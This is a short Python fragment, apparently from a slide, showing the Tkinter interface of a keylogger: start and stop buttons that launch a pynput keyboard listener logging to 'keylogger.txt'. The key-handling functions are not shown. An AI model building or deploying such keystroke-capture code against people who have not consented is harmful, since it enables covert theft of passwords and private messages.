

def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')
    stop_button.config(state='normal')

def stop_keylogger():
    global listener
    listener.stop()
    label.config(text="Keylogger stopped.")
    start_button.config(state='normal')
    stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack()